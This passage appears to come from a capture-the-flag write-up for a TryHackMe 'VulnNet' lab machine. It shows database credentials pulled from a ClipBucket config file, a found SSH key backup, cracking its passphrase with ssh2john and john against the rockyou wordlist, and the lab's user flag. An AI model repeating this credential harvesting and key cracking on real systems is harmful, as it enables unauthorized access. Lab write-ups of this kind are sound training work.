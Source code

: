 ```
	//Database Username
	$DBUSER = 'admin';
	//Database Password
	$DBPASS = 'VulnNetAdminPass0990';
	//Setting Table Prefix
	define('TABLE_PREFIX','cb_');


    $db = new Clipbucket_db();

    $db->connect($DBHOST,$DBNAME,$DBUSER,$DBPASS);

/*
	require 'adodb/adodb.inc.php';

	$db             = ADONewConnection($BDTYPE);
	$db->debug      = false;
	$db->charpage   = 'cp_utf8';
	$db->charset    = 'utf8';
	if(!$db->Connect($DBHOST, $DBUSER, $DBPASS, $DBNAME))
	{
	    exit($db->ErrorMsg());
	}
	$db->Connect($DBHOST, $DBUSER, $DBPASS, $DBNAME);
	
        $db->SetFetchMode(ADODB_FETCH_ASSOC); 
        
	$db->Execute('SET NAMES utf8');
	$db->Execute('SET CHARACTER SET utf8');
	$db->Execute('SET COLLATION_CONNECTION="utf8_general_ci"');
*/

?>
```

We got some creds. Let's looks for backups.

/var/backups

```
-rw-rw-r--  1 server-management server-management    1484 Jan 24 14:08 ssh-backup.tar.gz
```

Let's download it! And extract it. Now we can crack it using ssh2john and john. Now we have the password!

1. python2 /usr/share/john/ssh2john.py id_rsa > new_hash.txt
2. john --wordlist=/usr/share/wordlists/rockyou.txt new_hash.txt => oneTWO3gOyac     (id_rsa)

# users.txt

```
THM{907e420d979d8e2992f3d7e16bee1e8b}
```
